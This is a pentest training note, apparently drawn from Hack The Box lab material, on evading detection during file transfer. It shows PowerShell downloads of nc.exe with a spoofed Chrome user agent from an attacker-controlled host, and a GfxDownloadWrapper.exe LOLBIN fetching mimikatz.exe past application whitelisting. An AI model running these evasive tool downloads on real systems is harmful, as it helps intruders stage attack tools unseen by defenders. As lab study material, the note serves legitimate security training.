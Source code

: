 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# Evading Detection
## Changing User-Agent
In case diligent administrators or defenders have blacklisted any of these User Agents, Invoke-WebRequest contains a UserAgent parameter, which allows for changing the default user agent to one emulating Internet Explorer, Firefox, Chrome, Opera, or Safari. For example, if Chrome is used internally, then setting this User Agent may make the request seem legitimate.

````powershell 
PS C:\htb> [Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl

Name       : InternetExplorer
User Agent : Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-US)

Name       : FireFox
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) Gecko/20100401 Firefox/4.0

Name       : Chrome
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0
             Safari/534.6

Name       : Opera
User Agent : Opera/9.70 (Windows NT; Windows NT 10.0; en-US) Presto/2.2.1

Name       : Safari
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0
             Safari/533.16
````

Invoking Invoke-WebRequest to download nc.exe using a Chrome User Agent:

````powershell
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "C:\Users\Public\nc.exe"
 ````

````bash
Ryohei@htb[/htb]$ nc -lvnp 80

listening on [any] 80 ...
connect to [10.10.10.32] from (UNKNOWN) [10.10.10.132] 51313
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6
(KHTML, Like Gecko) Chrome/7.0.500.0 Safari/534.6
Host: 10.10.10.32
Connection: Keep-Alive
````

## LOLBAS / GTFOBins

[LOLBAS](https://lolbas-project.github.io/)

[GTFOBins](https://gtfobins.github.io/)

Application whitelisting may prevent you from using PowerShell or Netcat, and command-line logging may alert defenders to your presence. In this case, an option may be to use a "LOLBIN" (living off the land binary), alternatively also known as "misplaced trust binaries." An example LOLBIN is the Intel Graphics Driver for Windows 10 (GfxDownloadWrapper.exe), installed on some systems, and contains functionality to download configuration files periodically. This download functionality can be invoked as follows:

````powershell  
PS C:\htb> GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
````
Such a binary might be permitted to run by application whitelisting and be excluded from alerting. Other, more commonly available binaries are also available, and it is worth checking the LOLBAS project to find a suitable "file download" binary that exists in your environment. Linux's equivalent is the GTFOBins project and is definitely also worth checking out. As of the time of writing, the GTFOBins project provides useful information on nearly 40 commonly installed binaries that can be used to perform file transfers.


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

